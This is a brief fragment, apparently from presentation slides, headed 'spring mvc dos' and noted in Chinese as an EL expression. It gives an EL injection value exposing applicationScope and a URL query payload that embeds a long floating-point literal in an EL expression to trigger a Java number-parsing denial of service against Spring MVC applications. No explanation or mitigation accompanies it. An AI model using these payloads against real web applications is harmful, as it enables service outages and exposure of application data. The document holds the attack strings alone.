

# spring mvc dos
Message=${applicationScope}
EL表达式
index.htm?message=${0.000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000022250738585072012}

47